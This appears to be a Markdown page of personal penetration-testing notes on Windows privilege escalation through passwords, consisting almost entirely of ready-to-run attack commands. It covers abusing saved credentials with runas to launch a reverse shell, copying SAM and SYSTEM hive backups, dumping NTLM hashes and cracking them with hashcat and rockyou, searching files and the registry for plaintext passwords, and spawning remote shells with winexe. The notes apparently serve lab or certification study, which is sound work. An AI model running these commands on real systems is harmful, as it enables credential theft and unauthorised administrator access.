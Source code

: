 ```yaml
---
title: Passwords
parent: Method (Windows)
layout: default
nav_order: 3
---
```


## Saved Credentials
1. quick check: `winpeas.exe quiet cmd windowscreds`
2. verify: `cmdkey /list`
3. use to run a shell: `runas /savecred /user:administrator C:\PrivEsc\reverse.exe`

## SAM
1. Usually not readable, but backup may exists at:\
   `C:\Windows\Repair`
   `C:\Windows\System32\config\RegBack`
2. Copy both SAM and SYSTEM back to Kali
3. Obtain the hash: `python pwdump.py SYSTEM SAM` (pipenv please)
4. Crack using hashcat: `hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/seclists/rockyou.txt`

## Configuration Files
1. Auto search: `winpeas.exe quiet cmd searchfast filesinfo`
2. Manual search: `findstr /si password *.xml *.ini *.txt`
3. Spawn shell using credentials: `winexe -U 'admin%password123' //192.168.1.22 cmd.exe`

## Registry Password
1. check here: `reg query HKLM /f password /t REG_SZ /s` and also `reg query HKCU /f password /t REG_SZ /s` (not recommended as usually will have a lot of results)
2. `winpeas.exe quiet filesinfo userinfo` (long time to complete)
3. Spawn shell using credentials: `winexe -U 'admin%password123' //192.168.1.22 cmd.exe`